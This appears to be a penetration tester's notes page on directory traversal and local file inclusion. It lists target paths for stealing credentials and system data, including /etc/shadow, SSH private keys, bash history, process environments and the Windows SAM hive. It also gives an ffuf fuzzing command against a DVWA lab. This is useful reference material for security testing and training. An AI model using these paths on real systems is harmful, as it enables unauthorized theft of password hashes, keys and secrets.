 # Manual

## Directory Traversal

Navigating directories

### Linux

```
/etc/passwd
```

### Windows

```
/windows/win.ini
\\localhost\c$\windows\win.ini
```

## Local File Inclusion (LFI)

### General

#### Enumeration

- Check for disable_functions

```
phpinfo.php
```

### Linux

```
/etc/group
/etc/shadow
/home/<username>/.ssh/id_rsa
/root/.ssh/id_rsa
/etc/crontab
/home/<username>/.bash_history

/etc/os-release

/etc/hosts
/etc/resolv.conf
/proc/net/tcp
/proc/net/udp
/proc/net/arp
/proc/net/dev

/etc/ssh/sshd_config

/proc/self/cmdline
/proc/self/environ
/proc/self/stat
/proc/self/status
/proc/mounts
```

```
$ seq 1 100000 > pids.txt

$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w pids.txt -mc 200
```

### Windows

```
/WINDOWS/repair/sam
/WINDOWS/repair/system
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Linux/Log Files/Manual/Living off the Land|Log Files]]

- [Hacking Articles: Comprehensive Guide on Path Traversal](https://www.hackingarticles.in/comprehensive-guide-on-path-traversal/)

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

- [BorderGate: Local File Inclusion (LFI) Attacks](https://www.bordergate.co.uk/local-file-inclusion-attacks/)